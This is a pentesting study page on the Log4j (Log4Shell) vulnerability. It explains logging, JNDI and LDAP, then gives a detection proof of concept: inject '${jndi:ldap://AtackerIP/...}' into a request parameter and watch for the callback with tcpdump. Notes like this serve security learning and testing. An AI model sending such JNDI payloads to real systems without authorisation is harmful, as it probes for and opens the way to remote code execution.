

repository: amandaguglieri/hackinglife · page: log4j/index.html · generator: mkdocs

---
title: Log4j
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - java
  - serialization vulnerability
---

# Log4j

This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection). Log4j is a popular logging library for Java created in 2001. The logging library's main purpose is to provide developers with a way to change the format and verbosity of logging through configuration files versus code. 

## What it does

What a logging library does, is instead of using print statements, the developer just uses a wrapper around the Logging class or object. So instead of using print(line), the code would look like this:

```
logging.INFO(“Application Started”)
logging.WARN(“File Uploaded”)
logging.DEBUG(“SQL Query Ran”)
```

Then the application has a configuration file which says what log levels (INFO, WARN, DEBUG, etc.) to display. This way when there is a problem with the application, the developer can enable DEBUG mode and instantly get the messages they need to identify the issue.

## Reconnaissance - Proof of Concept

The main way people have been testing if an application is vulnerable is by combining this vulnerability with JNDI.

**Java Naming and Directory Interface (JNDI)** is a Java API that allows clients to discover and look up data and objects via a name. These objects can be stored in different naming or directory services, such as Remote Method Invocation (RMI), Common Object Request Broker Architecture (CORBA), Lightweight Directory Access Protocol (LDAP), or Domain Name Service (DNS). By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

In other words, JNDI is a simple Java API (such as 'InitialContext.lookup(String name)') that takes just one string parameter, and if this parameter comes from an untrusted source, it could lead to remote code execution via remote class loading.

**LDAP is the acronym forLightweight Directory Access Protocol**, which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389.

**Proof of concepts to see if it is vulnerable**:

**1.** Grab the request with the injectable parameter.

**2.** In the injectable parameter, inject something like this:

```
"${jndi:ldap://AtackerIP/whatever}"
```

With [tcpdump](tcpdump.md), check if the request with the payload produces some traffic to your attacker machine:

```bash
sudo tcpdump -i tun0 port 389
# -i: Select interface
# port: indicate the port where traffic is going to be captured. 
```

The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389.
